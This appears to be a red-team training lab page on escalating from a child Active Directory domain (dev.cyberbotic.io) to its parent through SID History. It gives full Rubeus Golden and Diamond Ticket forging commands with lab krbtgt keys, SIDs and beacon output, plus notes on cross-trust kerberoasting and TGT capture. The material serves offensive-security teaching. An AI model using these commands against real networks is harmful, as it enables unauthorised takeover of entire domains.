 When a child domain is added to a forest, it automatically creates a transitive, two-way trust with its parent. This can be found in the lab where dev.cyberbotic.io is a child domain of cyberbotic.io.
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> powershell Get-DomainTrust

SourceName      : dev.cyberbotic.io
TargetName      : cyberbotic.io
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
WhenCreated     : 8/15/2022 4:00:00 PM
WhenChanged     : 8/15/2022 4:00:00 PM
```
  

SourceName is the current domain, TargetName is the foreign domain, TrustDirection is the trust direction (bidirectional is two-way), and TrustAttributes: WITHIN_FOREST lets us know that both of these domains are part of the same forest which implies a parent/child relationship.

If we have Domain Admin privileges in the child, we can also gain Domain Admin privileges in the parent using a TGT with a special attribute called SID History.  SID History was designed to support migration scenarios, where a user would be moved from one domain to another.  To preserve access to resources in the "old" domain, the user's previous SID would be added to the SID History of their new account.  When creating such a ticket, the SID of a privileged group (EAs, DAs, etc) in the parent domain can be added that will grant access to all resources in the parent.

This can be achieved using either a Golden or Diamond Ticket.

  

### Golden Ticket

The process is the same as creating Golden Tickets previously, the only additional information required is the SID of a target group in the parent domain.
```
beacon> powershell Get-DomainGroup -Identity "Domain Admins" -Domain cyberbotic.io -Properties ObjectSid

objectsid                                   
---------                                   
S-1-5-21-2594061375-675613155-814674916-512

beacon> powershell Get-DomainController -Domain cyberbotic.io | select Name

Name              
----              
dc-1.cyberbotic.io
```
  

Create the golden ticket with Rubeus.
```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /sids:S-1-5-21-2594061375-675613155-814674916-512 /nowrap

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : DEV.CYBERBOTIC.IO (DEV)
[*] SID            : S-1-5-21-569305411-121244042-2357301523
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-2594061375-675613155-814674916-512
[*] ServiceKey     : 51D7F328ADE26E9F785FD7EEE191265EBC87C01A4790A7F38FB52E06563D4E7E
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : 51D7F328ADE26E9F785FD7EEE191265EBC87C01A4790A7F38FB52E06563D4E7E
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt
[*] Target         : dev.cyberbotic.io

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator@dev.cyberbotic.io'

[*] AuthTime       : 9/12/2022 10:44:21 AM
[*] StartTime      : 9/12/2022 10:44:21 AM
[*] EndTime        : 9/12/2022 8:44:21 PM
[*] RenewTill      : 9/19/2022 10:44:21 AM

[*] base64(ticket.kirbi):

      doIFmD[...]MuaW8=
```
  

Then import it into a logon session and use it to access the domain controller in the parent.
```
beacon> run klist

Current LogonId is 0:0x3a6665

Cached Tickets: (1)

#0>	Client: Administrator @ DEV.CYBERBOTIC.IO
	Server: krbtgt/dev.cyberbotic.io @ DEV.CYBERBOTIC.IO
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96

beacon> ls \\dc-1.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 15:26:54   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/24/2022 11:11:21   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     09/08/2022 17:33:33   ProgramData
          dir     08/15/2022 15:07:48   Recovery
          dir     08/24/2022 11:05:32   Shares
          dir     08/31/2022 16:44:18   System Volume Information
          dir     08/15/2022 15:09:04   Users
          dir     08/24/2022 11:10:45   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     09/12/2022 08:36:09   DumpStack.log.tmp
 384mb    fil     09/12/2022 08:36:09   pagefile.sys
```
  

### Diamond Ticket

The Rubeus `diamond` command also has a `/sids` parameter, with which we can supply the extra SIDs we want in our ticket.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:519 /sids:S-1-5-21-2594061375-675613155-814674916-519 /krbkey:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /nowrap

[*] Action: Diamond Ticket

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dc-2.dev.cyberbotic.io'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: KT+juea5lxCbxNfLLWbgRorvmR+gRkaoifHatrHE0GE=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIF1j[...]5JTw==

[*] Decrypting TGT
[*] Retreiving PAC
[*] Modifying PAC
[*] Signing PAC
[*] Encrypting Modified TGT

[*] base64(ticket.kirbi):

      doIGAj[...]lDLklP
```
  

If dev.cyberbotic.io also had a child (e.g. test.dev.cyberbotic.io), then a DA in TEST would be able to use their krbtgt to hop to DA/EA in cyberbotic.io instantly because the trusts are transitive.

There are also other means which do not require DA in the child.  For example, you can also kerberoast and ASREProast across domain trusts, which may lead to privileged credential disclosure.  Because principals in CYBER can be granted access to resources in DEV, you may find instances where they are accessing machines we have compromised.  If they interact with a machine with unconstrained delegation, we can capture their TGTs.  If they're on a machine interactively, such as RDP, we can impersonate them just like any other user.
